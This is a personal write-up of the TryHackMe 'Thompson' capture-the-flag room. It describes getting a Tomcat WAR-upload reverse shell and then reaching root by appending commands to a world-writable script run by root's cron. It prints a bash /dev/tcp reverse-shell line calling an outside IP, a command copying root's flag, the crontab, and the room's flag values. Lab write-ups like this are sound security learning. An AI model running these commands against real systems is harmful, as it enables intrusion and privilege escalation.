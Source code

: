 # Report Thompson 
[![Header.png](./assets/Header.png)](https://tryhackme.com/r/room/bsidesgtthompson)
## New Learning 
- msfpayload 
This is the feature of metasploit that is helpful to create a payload with the 
options set up. such as LHOSTS, LPORT etc.
We can create executables of different formates based on the target server. 


## Tomcat:
It is a webserver that is used to host java based websites.
This server there is somewhere an option to opload a war file.


once the exploit is uploaded, the we open the '/exploit' to connect to reverse shell
we get to see that there is an user called jack and has the user.txt

Once we had access to the reverse shell. we are now able to login using the tomcat
but we have the ssh open port lets see something is possible using ssh

## Into Jacks Home
In the /home/jack, there are the files as listed below

```bash
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Dec 26 09:22 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```
The `id.sh` is executing and putting the id output into the test.txt and in the same way we add the code.
 
```bash
echo "cp /root/root.txt /home/jack/root.txt" >> id.sh
```
## Now We Execute the Code 
Maybe jack has enough previlages to copy the file from the root is one reason since the file is hetting copied to the current directory after runnin `id.sh` in the terminal.
[CLARIFIED BELOW]
Now we can see the contents of the file.
Here are the contents:

```bash
ls
id.sh
root.txt
test.txt
user.txt


ls -l
total 16
-rwxrwxrwx 1 jack jack 64 Dec 26 09:32 id.sh
-rw-r--r-- 1 root root 33 Dec 26 09:48 root.txt
-rw-r--r-- 1 root root 39 Dec 26 09:48 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt


cat user.txt
39400c90bc683a41a8935e4719f181bf


cat root.txt
d89d5391984c0450a95497153ae7ca3a

```
## CLarification
Here is the clarification i have got after checking a writeup.
There is a linux tool software that automatically executes a command based on the frequence and the tool called `corntab`.
Here also the same scenirio has happened. The software is running in the background called as corntab and it executes everyminute the id.sh
Here is the cornpeas output log info
```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```
So we can clearly see that every minute the code id.sh in `/home/jack` will be executed by the root user.
we no need to execute it.
__Since the `corntab` is executing it using the root previlages, the `id` in the `test.txt` is root.__

- Now i will try to add a reverse shell bash script
```bash
$echo "bash -i >& /dev/tcp/10.17.2.145/4444 0>&1" >> id.sh

$cat id.sh
#!/bin/bash
id > test.txt
cp /root/root.txt /home/jack/root.txt
bash -i >& /dev/tcp/10.17.2.145/4444 0>&1

And i got the shell after a minute since it executes automatically
The screenshot in the same directory shows it.

```
You can use `linPEAS` to detect this. [Provided you have access to ssh account]
```bash
scp -P 22 /path/to/linPEAS.sh username@IP:/path/to/dest/to/save/linPEAS.sh
```
This is helpless in this task unless we get access to the ssh credentials.
### References 
[url](https://bobloblaw321.wixsite.com/website/post/tryhackme-thompson)
